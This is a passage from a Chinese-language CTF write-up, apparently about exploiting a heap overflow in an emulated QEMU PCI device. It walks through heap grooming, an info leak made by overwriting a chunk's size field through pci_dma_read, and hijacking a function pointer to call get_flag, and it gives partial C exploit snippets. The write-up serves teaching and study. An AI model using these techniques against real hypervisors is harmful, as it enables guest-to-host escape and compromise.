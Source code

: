 ![]({{site.baseurl}}/images/2019-7-29/heapmap3_3.png)

刚开始在进行堆布局实验的时候是在 18.04 上操作的，就发现不论怎么占位，
`header` 和 `frame_buff` 都凑不到一块去0.0，然后换了 16.04 就一次成功了，
看来 18.04 上的堆内存分配还是多了些弯弯绕绕啊。现在直接释放掉 `0x110`
和 `0x210` 大小的 block 让 `header` 和 `frame_buff` 占上来，接着释放掉 `0x310`
的 block 让堆溢出的 `buff` 占上来整个堆布局就完成了。

![]({{site.baseurl}}/images/2019-7-29/heapmap4.png)

## 3.3. 信息泄露

接下来就是构造 buff 的数据了，通过 `pci_dma_read` 把我们构造的数据传到 `frame_buff` 上，

```c
    struct {
        uint32_t offset;
        uint32_t size;
        uint32_t readback_addr;
        uint32_t block_id;
        uint64_t heapheader[2];
	    uint32_t hsize;
	    uint32_t hoffset;
    } *reader = kzalloc(0x1000, GFP_KERNEL);

    reader->offset = 0x100-0x40+0x18;
    reader->size = 0x200+0x40-0x18;
    ...
    reader->heapheader[0] = 0;
    reader->heapheader[1] = 0x115;
    reader->hsize = 0x200+0x310+0x10+0x20;

    writel(virt_to_phys(reader)+0x10+0x18-0x200, piomem+4*8);
```

覆盖 `header` 的 `size` 字段，使 `frame_buff` 可以读到 `header` 上的数据，
`frame_buff` 的堆地址和 `get_flag` 函数的地址。

## 3.4. 劫持控制流

由于每次传输数据时对 `frame_buff` 的 `size` 做了校验，只有等于 `0x200` 的时候才能通过校验，
所以我们要再进行二次覆盖，来劫持函数指针。先释放掉原来的 `frame_header` 和 `frame_buff`，
重新分配一次进行占位，庆幸还是原来的布局，再来一次。

```c
    writel(0, piomem+0x4*5);
    writel(0, piomem+0x4*4);
```

这次带上 `frame_buff` 的地址，还有 `get_flag`，

```c
    reader->hframe_buff = fheader_buff_addr;
    reader->hwrite = fheader_get_flag_addr;
```
